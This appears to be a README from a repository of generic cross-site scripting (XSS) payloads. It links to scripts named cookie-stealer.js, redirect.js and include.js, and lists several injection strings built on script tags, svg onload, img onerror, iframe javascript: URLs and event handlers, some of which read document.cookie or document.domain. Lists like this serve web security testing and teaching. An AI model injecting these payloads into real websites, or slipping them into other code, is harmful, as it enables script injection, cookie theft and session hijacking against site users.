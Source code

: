 # Generic xss payloads.

### Maybe useful payloads:

* [cookie-stealer.js](useful/cookie-stealer.js)

* [redirect.js](useful/redirect.js)

* [include.js](useful/include.js)

### Other:

```js
<script>alert("hello")</script>
document.write(location.search("><svg onload=alert(1)>"))
<svg/onload=alert("hi")>
<img src=x onerror="alert('hello');">
<iframe src=”javascript:alert(1)”></iframe>
<var onmouseover="prompt(1)">move the cursor here</var>
<script>alert(window.origin)</script>
<script>alert(document.cookie)</script>
<script>confirm(document.domain)</script>
```

